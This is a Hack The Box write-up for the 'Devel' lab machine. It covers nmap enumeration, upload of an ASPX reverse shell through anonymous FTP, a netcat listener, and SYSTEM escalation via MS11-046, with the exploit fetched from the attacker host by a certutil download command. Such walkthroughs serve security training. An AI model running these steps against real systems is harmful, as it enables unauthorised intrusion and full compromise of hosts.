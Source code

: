 ```yaml
---
clayout: ctf
title: Devel
date: 2025-08-26
image: /ctf/hack-the-box/machines/devel/info-card.png
type: Hack The Box

ctf:
    - name: Devel
      link: https://app.hackthebox.com/machines/3
      thumbnail: /ctf/hack-the-box/machines/devel/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/3
          thumbnail: /ctf/hack-the-box/machines/devel/pwned.png
---
```


## Machine Overview

The target, **Devel (10.10.10.5)**, is a Windows 7 Enterprise host running Microsoft IIS 7.5. An FTP service is available with anonymous access enabled. By leveraging this misconfiguration, we can upload a malicious ASPX payload to obtain initial access. Privilege escalation is achieved through a kernel exploit (MS11-046), leading to full `NT AUTHORITY\SYSTEM` compromise.

## Enumeration

### Nmap Scan

We start with an `nmap` scan to identify open ports and running services:

```bash
nmap -sC -sV -Pn -A -oN nmap.txt 10.10.10.5
```

**Scan Results:**

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
```

Key findings:

* **FTP (21/tcp)** allows anonymous login.
* **HTTP (80/tcp)** hosts Microsoft IIS 7.5 with a default IIS7 page.

### FTP Enumeration

Anonymous login is permitted:

```bash
ftp> ls -al 
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
```

Files in this directory (`iisstart.htm`, `welcome.png`) are also accessible via the web server. This confirms the FTP root is directly mapped to the IIS web root (`C:\inetpub\wwwroot`).

### Web Enumeration

Navigating to `http://10.10.10.5/` shows the IIS7 default welcome page:

![Home Page](/ctf/hack-the-box/machines/devel/home.png)

Since the web root is writable via FTP, we can upload a malicious `.aspx` file that will be executed by IIS.

## Initial Foothold

We upload an ASPX reverse shell:

```bash
ftp> put shell.aspx shell.aspx
```

Then start a listener on our attacking machine:

```bash
nc -lvnp 4444
```

Trigger the payload by browsing to:

```text
http://10.10.10.5/shell.aspx
```

A shell callback is received:

```bash
c:\windows\system32\inetsrv> whoami
iis apppool\web
```

At this point, we have code execution as the IIS AppPool identity.

## Privilege Escalation

### System Enumeration

Checking system information:

```cmd
c:\windows\system32\inetsrv> systeminfo
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
```

The host runs **Windows 7 Enterprise (Build 7600)** with no service packs applied — a strong indicator of kernel-level vulnerabilities.

### Exploit Selection

A search identifies [MS11-046](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2011/ms11-046) (AFD.sys Privilege Escalation) as a working exploit for this system. Precompiled binaries are publicly available, e.g., from [SecWiki](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046).

### Exploit Delivery

We host the exploit on our attacker machine:

```bash
python3 -m http.server 8000
```

On the target, we download it using `certutil`:

```bash
certutil -urlcache -f http://10.10.14.2:8000/ms11-046.exe ms11-046.exe
```

### Exploitation

Execute the exploit:

```bash
C:\Users\Public> ms11-046.exe
```

Check privileges:

```bash
c:\Windows\System32> whoami
nt authority\system
```

We now have full SYSTEM-level access.

> [!INFO] **User & Root Flags**
>
> * User: `C:\Users\babis\Desktop\user.txt`
> * Root: `C:\Users\Administrator\Desktop\root.txt`
